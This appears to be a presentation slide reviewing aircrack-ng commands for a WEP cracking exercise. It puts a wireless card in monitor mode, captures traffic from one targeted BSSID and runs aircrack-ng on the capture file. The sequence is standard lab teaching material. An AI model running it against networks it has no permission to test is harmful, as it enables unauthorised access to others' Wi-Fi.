

# Commands review
iwconfig
airmon-ng start wlan0
airodump-ng wlan0mon
airmon-ng stop wlan0mon //optional command to disable monitor mode
airodump-ng --bssid 48:5D:36:06:CF:C8 --channel 6 --write  arp_wep wlan0mon
aircrack-ng arp_wep-01.cap //optional

2